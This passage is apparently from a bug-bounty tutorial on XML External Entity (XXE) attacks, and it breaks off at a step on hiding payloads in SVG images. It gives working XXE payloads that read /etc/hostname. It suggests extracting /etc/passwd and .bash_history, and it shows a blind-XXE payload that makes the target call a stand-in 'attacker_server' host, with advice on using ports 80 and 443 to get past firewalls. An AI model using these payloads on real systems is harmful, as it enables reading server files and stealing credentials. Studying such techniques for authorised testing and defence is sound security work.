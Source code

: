 	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE example [
	<!ENTITY test SYSTEM "file:///etc/hostname">
	]>
	<example>&test;</example>
#### When the SYSTEM keyword does not work, you can replace it with the PUBLIC keyword instead. This tag requires you to supply an ID surrounded by quotes after the PUBLIC keyword. The parser uses this to generate an alternate URL for the value of the entity. For our purposes, you can just use a random string in its place:

	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE example [
	<!ENTITY test PUBLIC "abc" "file:///etc/hostname">
	]>
	<example>&test;</example>
#### Next, try to extract some common system files. You can start with the files /etc/hostname and /etc/passwd, for example. Another file I like to extract using XXEs is .bash_history

#### <font color="red">Test fonr Blind XXE</font > If the server takes XML input but does not return the XML document in an HTTP response, you can test for a blind XXE instead. Instead of reading files from the server’s response, most blind XXE attacks steal data by having the target server make a request to the attacker’s server with the exfiltrated information.


#### First, you need to make sure that the server can make outbound connections by having the target make a request to your server.

#### The process for setting up a listener to discover XXEs is the same as setting up to find SSRFs. Try making an external entity load a resource on your machine. To bypass common firewall restrictions, you should test with ports 80 and 443 first, because the target’s firewall might not allow outbound connections on other ports:

	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE example [
	<!ENTITY test SYSTEM "http://attacker_server:80/xxe_test.txt">
	]>
	<example>&test;</example>
#### <font color="red">Step 4- Embed XXE Payloads In Different file types</font> To embed an XXE payload in an SVG image, you need to first open up the image as a text file. Take this SVG image of a blue circle, for example:

